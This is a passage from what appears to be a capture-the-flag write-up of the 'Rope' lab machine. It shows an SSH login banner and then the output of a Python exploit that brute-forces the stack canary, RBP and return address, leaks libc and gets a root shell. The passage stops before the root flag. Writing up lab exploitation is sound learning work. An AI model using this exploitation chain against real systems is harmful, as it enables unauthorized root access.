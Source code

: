      * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Sat Aug 31 20:56:07 UTC 2019

      System load:  0.13               Processes:            172
      Usage of /:   28.3% of 14.70GB   Users logged in:      0
      Memory usage: 9%                 IP address for ens33: 10.10.10.148
      Swap usage:   0%


    152 packages can be updated.
    72 updates are security updates.

    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


    Last login: Sat Aug 31 20:55:56 2019 from 10.10.14.5
    john@rope:~$



Now I can run for the remote target, with the same IP/port (because
127.0.0.1:1337 now points to the SSH tunnel, not a local copy of the
server), just different offsets. It took just under 15 minutes to run,
but it results in a shell:



    root@kali# python3 rope_root-remote3.py remote
    [*] Starting brute force
    [+] Brute forcing Canary: Finished in 320.63 seconds
    [+] Canary:             0x0d29f2c7dd531f00
    [+] Brute forcing RBP: Finished in 335.70 seconds
    [+] RBP:                0x00007ffe4683ca60
    [+] Brute forcing Return Address: Finished in 238.71 seconds
    [+] Return Address:     0x000055a54dd75562
    [*] Sending exploit to leak libc write address
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [+] libc write address: 0x00007fea834b9140
    [*] Closed connection to 127.0.0.1 port 1337
    [+] Calculated addresses:
        libc_base:          0x00007fea833a9000
        dup2:               0x00007fea834b99a0
        execve:             0x00007fea8348de30
        binsh:              0x00007fea8355ce9a
    [*] Sending shell exploit
    [+] Opening connection to 127.0.0.1 on port 1337: Done
    [*] Switching to interactive mode
    $ id
    uid=0(root) gid=0(root) groups=0(root)



And grab `root.txt`:

